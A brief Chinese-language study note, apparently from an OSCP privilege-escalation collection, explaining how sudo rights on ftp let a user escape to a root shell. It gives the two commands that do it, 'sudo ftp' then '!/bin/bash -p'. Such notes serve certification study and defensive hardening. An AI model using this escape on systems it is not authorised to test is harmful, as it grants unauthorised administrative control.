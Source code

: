# ftp

`ftp` 若具有 `sudo` 权限,可利用命令行交互页面，反单shell环境

```
sudo ftp
!/bin/bash -p
```
![ftp](https://github.com/Nongcloud/oscp-Learn/tree/main/Privilege-Escalation/sudo/images/sudo-ftp.png)
